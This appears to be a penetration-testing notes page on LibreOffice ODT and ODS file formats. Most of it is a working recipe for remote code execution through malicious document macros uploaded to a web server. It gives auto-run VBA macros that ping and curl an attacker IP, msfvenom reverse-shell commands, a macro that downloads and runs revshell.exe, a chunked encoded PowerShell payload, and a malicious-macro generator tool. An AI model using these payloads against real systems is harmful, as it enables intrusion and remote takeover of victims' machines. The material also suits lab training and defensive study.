 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# LibreOffice

## File Types

### ODT

The ODT file type is the **default document format used by LibreOffice Writer** and other OpenDocument-compatible applications. It belongs to the [OpenDocument Text](https://www.libreoffice.org/discover/what-is-opendocument/) (ODT) standard, which defines how word processing documents are structured, stored, and exchanged across different platforms. Internally, an ODT file is **a compressed ZIP archive that contains multiple XML-based files and directories**. These components define the document’s content, formatting, metadata, and embedded elements such as images or macros. Because of this structure, an ODT can be unpacked with standard archive utilities and examined directly, making it easier to analyze or manipulate at a granular level.

### ODS

ODS files are **spreadsheets created with LibreOffice Calc**. They support macros written in LibreOffice Basic, Python, or JavaScript, which can be triggered by events such as opening the document, activating a sheet, or changing cell contents.

## Macros

When there is upload functionality on a webserver accepting `.odt` files, macros can be leveraged to achieve RCE. Simple payloads, like pingbacks and `GET` requests, can used as a test:

1. Create a basic macro (1) under the document's name (2).
2. Try some testing payloads first, such as pingbacks and `GET` requests (3).
3. Make the macro execute as soon as the document opens (4 & 5).

<figure><img src="../../../.gitbook/assets/odt_macro.png" alt=""><figcaption></figcaption></figure>

{% tabs %}
{% tab title="Testing Payloads" %}
Basic:

```vba
Sub Main
	' Ping the attacking host one time
	Shell("cmd /c ping -n 1 192.168.45.241")
	' Wait for two seconds
	Wait(200)
	' Send a GET request to an attacker-controlled webserver 
	Shell("cmd /c curl 'http://192.168.45.241/test'")
End Sub
```

More robust:

```vba
Sub DocumentOpen
    ' Declare a variable to hold the shell object
    Dim oShell
    
    ' Create a Wscript.Shell COM object (Windows native)
    oShell = CreateObject("Wscript.Shell")
    
    ' Use .Run to execute a command
    oShell.Run "cmd.exe /c ping -n 1 192.168.45.241"
    
    ' Use .Run again to execute another command
    oShell.Run "cmd.exe /c curl http://192.168.45.241/test"
End Sub
```

Powershell-based:

{% code overflow="wrap" %}
```vba
Sub DocumentOpen
    Dim oShell
    oShell = CreateObject("Wscript.Shell")
    oShell.Run "powershell.exe -c Invoke-WebRequest -Uri http://192.168.45.241/test -UseBasicParsing"
End Sub
```
{% endcode %}

Check if the ping/request reaches the attacking host:

{% code overflow="wrap" %}
```bash
# Test pingback
$ sudo tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
22:05:27.230793 IP craft > 192.168.45.241: ICMP echo request, id 1, seq 1, length 40
22:05:27.230891 IP 192.168.45.241 > craft: ICMP echo reply, id 1, seq 1, length 40
​
# Test HTTP GET request
$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.156.169 - - [16/Aug/2025 22:07:44] code 404, message File not found
192.168.156.169 - - [16/Aug/2025 22:07:44] "GET /test HTTP/1.1" 404 -
```
{% endcode %}
{% endtab %}

{% tab title="RevShell" %}
Once the test payloads are validated, they can be mofidied as desired:

{% code overflow="wrap" %}
```bash
# Create a reverse shell payload
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.241 LPORT=443 -f exe -o revshell_443.exe
```
{% endcode %}

{% code overflow="wrap" %}
```vba
Sub Main
	' Download the payload on the target
	Shell("cmd /c 'curl http://192.168.45.241:443/revshell.exe' -o 'c:\windows\temp\revshell.exe'")
	' Wait for five seconds to ensure the payload has been downloaded
	Wait(5000)
	' Execute the payload
	Shell("cmd /c 'c:\windows\temp\revshell.exe'")
End Sub
```
{% endcode %}
{% endtab %}

{% tab title="RevShell (HTA)" %}
An HTA (HTML Application) file is a Windows application executed by `mshta.exe`. It contains HTML and scripts (VBScript or JavaScript) that run with the full privileges of the current user, allowing direct execution of system commands and payloads. HTAs are commonly used in pentesting to deliver payloads that run immediately when opened.

{% code overflow="wrap" %}
```bash
# Create an HTA file
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.118.8 LPORT=443 -f hta-psh -o evil.hta
```
{% endcode %}

Convert the long string into smaller chunks:

{% hint style="warning" %}
VBA has a 255-character limit for literal strings, but this restriction does not apply to strings stored in variables.
{% endhint %}

{% code title="string_splitter.py" %}
```python
#!/usr/bin/python3
s = "powershell.exe -nop -w hidden -e aQB...<SNIP>...OwA="
​
n = 50
for i in range(0, len(s), n):
    chunk = s[i:i + n]
    print('Str = Str + "' + chunk + '"')
```
{% endcode %}

```vba
Sub Exploit
​
   Dim Str As String
​
	Str = Str + "powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4Ad"
	Str = Str + "ABQAHQAcgBdADoAOgBTAGkAegBlACAALQBlAHEAIAA0ACkAewA"
	<SNIP>
	Str = Str + "uAEQAaQBhAGcAbgBvAHMAdABpAGMAcwAuAFAAcgBvAGMAZQBzA"
	Str = Str + "HMAXQA6ADoAUwB0AGEAcgB0ACgAJABzACkAOwA="
​
   Shell(Str)
​
End Sub
```
{% endtab %}

{% tab title="RevShell (MMG-LO)" %}
The [Malicious Macro Generator LibreOffice (MMG-LO)](https://github.com/0bfxgh0st/MMG-LO/) can be used to automate the process:

```bash
$ python3 mmg-ods.py windows 192.168.45.241 443
[+] Payload: windows reverse shell
[+] Creating malicious .ods file
​
Done.
```
{% endtab %}
{% endtabs %}

